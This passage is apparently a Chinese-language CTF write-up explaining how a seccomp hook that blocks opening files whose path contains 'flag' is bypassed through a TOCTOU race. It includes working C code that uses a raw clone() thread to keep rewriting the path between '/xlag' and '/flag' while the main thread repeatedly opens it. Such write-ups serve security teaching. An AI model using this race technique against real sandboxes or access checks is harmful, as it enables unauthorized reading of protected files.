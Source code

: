 编译使用 `gcc myread.c -static -o read` 。简单的读文件打印程序就不放了。

### 都是 seccomp 的错

seccomp 监控进程对于系统调用的访问，加了 hook 函数，看 main.rs 首行 [提示的文档](https://crates.io/crates/greenhook) 找到 `TOCTOU(Time-of-check to time-of-use)` 攻击。大概就是在 check 和真正读文件之间存在时间差，这个时间差是可以进行一些修改或者删除的。

通过 `opening_handler` 函数发现是通过 check path 中是否含有 `flag` 来劫持，那我们在这个 check 和真正读文件之间就可以修改。那么如何修改呢？注意到这个 hook 函数是通过线程执行的。常规的程序执行流程都是从前往后线性的，但是线程之间是会相互竞争的，而题目并没有限制线程，于是可以考虑用线程来修改读取的 path。

尝试了 c++ 的 thread，c 的 pthread， `strace` 一下发现系统调用都是 `clone3` ，连线程都进不去，似乎会被 ban 掉。

那只能用更底层的 clone 了，但我比赛里开了很多线程，每个线程都尝试把 path 进行一次反复横跳的修改，但失败了。

赛后看别的师傅的 wp 发现只要一个线程，在里面 for 循环的一直反复修改即可，不需要开很多线程，不然 detached 的模式可能导致每个线程很快结束，捕捉不到这个时机。

{{% spoiler 代码 %}}
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>

#define STACK_SIZE 4096

char path[10] = "/xlag";

int func(void *arg) {
    for(int i=0;i<1000000;++i){
        path[1]='x';
        path[1]='f';
    }    
}

char buffer[256];

int main() {
    void *child_stack = malloc(STACK_SIZE);
    int thread_pid = clone(&func, child_stack+STACK_SIZE, CLONE_SIGHAND|CLONE_FS|CLONE_VM|CLONE_FILES, NULL);
    for(int i=0;i<10000;++i) {
        FILE* fd = fopen(path,"r");
        if (fd) {
            fgets(buffer, 256, fd);
            if(buffer[0]!='I') puts(buffer);
            fclose(fd);
        }
    }
    return 0;
}
```
{{% /spoiler %}}
